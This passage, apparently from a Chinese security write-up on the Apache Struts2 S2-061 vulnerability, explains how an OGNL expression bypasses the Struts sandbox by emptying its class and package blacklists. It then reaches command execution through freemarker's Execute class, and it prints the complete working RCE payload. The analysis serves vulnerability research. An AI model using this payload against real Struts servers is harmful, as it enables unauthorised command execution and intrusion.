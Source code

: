 便可使用以下表达式获取上下文对象`context`：

```php
(#instancemanager=#application['org.apache.tomcat.InstanceManager']).
(#stack=#request['struts.valueStack']).
(#bean=#instancemanager.newInstance('org.apache.commons.collections.BeanMap')).
(#bean.setBean(#stack)).
(#context=#bean.get('context'))
```

然后使用同样的方式来获取上下文`context`对象中的安全管理器对象`SecurityMemberAccess`，即安全沙盒的主要实现类。并使用`BeanMap#put()`方法实现黑名单的置空操作。即：

```php
(#macc=#bean.get('memberAccess')).
(#bean.setBean(#macc)).
(#emptyset=#instancemanager.newInstance('java.util.HashSet')).
(#bean.put('excludedClasses',#emptyset)).
(#bean.put('excludedPackageNames',#emptyset))
```

到此，便实现了绕过沙盒，获取了上下文对象`context`，并将沙盒的黑名单指向了一个空的集合。剩下要做的便是执行命令。前面提到过，从`ognl`从`3.1.26`版本开始，增加了`Strict`模式，且是默认启用的。在该模式下，`OgnlRuntime#invokeMethod()`方法还将`java.lang.Runtime`和`java.lang.ProcessBuilder`这两类给ban掉了。这就意味着即使前面绕过了沙盒，最终还是无法在表达式中直接调用这两个类的方法去执行命令。只能通过间接的方式，比如其他某个类的某个方法，里面调用了`Runtime#exec()`或`ProcessBuilder#start()`，且命令参数可控。

`S2-061`的报告者，知名的安全研究员`pwntester`给出了一种方法，就是通过调用`freemarker`中的`freemarker.template.utility.Execute#exec()`实现命令执行。

> 估计是他在研究FreeMarker模板注入漏洞及沙盒绕过的时候想到的。详见他的Blackhat议题：&lt;Room for Escape: Scribbling Outside the Lines of Template Security&gt;(参考\[6\])

最终可得：

```php
%{
(#instancemanager=#application['org.apache.tomcat.InstanceManager']).
(#stack=#request['struts.valueStack']).
(#bean=#instancemanager.newInstance('org.apache.commons.collections.BeanMap')).
(#bean.setBean(#stack)).
(#context=#bean.get('context')).
(#bean.setBean(#context)).
(#macc=#bean.get('memberAccess')).
(#bean.setBean(#macc)).
(#emptyset=#instancemanager.newInstance('java.util.HashSet')).
(#bean.put('excludedClasses',#emptyset)).
(#bean.put('excludedPackageNames',#emptyset)).
(#arglist=#instancemanager.newInstance('java.util.ArrayList')).
(#arglist.add('id')).
(#execute=#instancemanager.newInstance('freemarker.template.utility.Execute')).
(#execute.exec(#arglist))}
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ab15f886bb940ed1743c38014467f761c194237a.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ab15f886bb940ed1743c38014467f761c194237a.png)
